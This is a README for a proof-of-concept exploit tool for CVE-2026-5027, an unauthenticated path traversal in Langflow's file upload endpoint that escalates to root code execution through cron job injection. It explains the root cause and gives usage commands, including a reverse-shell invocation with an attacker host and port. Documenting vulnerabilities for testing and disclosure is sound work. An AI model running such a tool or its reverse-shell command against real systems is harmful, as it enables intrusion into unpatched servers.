


# CVE-2026-5027 - Langflow Path Traversal to Remote Code Execution

## Description

Langflow versions up to and including 1.8.4 do not sanitize the `filename` parameter in the `POST /api/v2/files` endpoint. An attacker can use path traversal sequences (`../`) to write files to arbitrary locations on the filesystem. When combined with Langflow's default auto-login configuration, this is exploitable without any authentication, leading to Remote Code Execution as root via cron job injection.

## Affected Versions

- **Vulnerable:** Langflow <= 1.8.4
- **Fixed:** No patch available at time of writing
- **Default config:** Auto-login enabled (unauthenticated exploitation)
- **Advisory:** [Tenable TRA-2026-26](https://www.tenable.com/security/research/tra-2026-26)

## Usage

```bash
# Proof of concept (writes test file to /tmp/)
python3 exploit.py -t http://target:7860

# With credentials (if auto-login is disabled)
python3 exploit.py -t http://target:7860 -u admin -p password

# Reverse shell via cron job
python3 exploit.py -t http://target:7860 --lhost YOUR_IP --lport 4444
```

## Example Output





## Root Cause

The `upload_user_file()` function in `src/backend/base/langflow/api/v2/files.py` passes `file.filename` directly to the storage service without sanitization. The `LocalStorageService.save_file()` constructs the path using `folder_path / file_name`, which does not prevent directory traversal.

## References

- [Tenable Advisory TRA-2026-26](https://www.tenable.com/security/research/tra-2026-26)
- [Langflow GitHub](https://github.com/langflow-ai/langflow)
- [CVE-2026-5027: Langflow Path Traversal to RCE - Full Technical Analysis](https://yh.do/cve-2026-5027-langflow-path-traversal-rce/)

## Disclaimer

This tool is provided for authorized security testing and educational purposes only. Only use on systems you own or have explicit permission to test.

## Author

Yahia Hamza - [https://yh.do](https://yh.do)
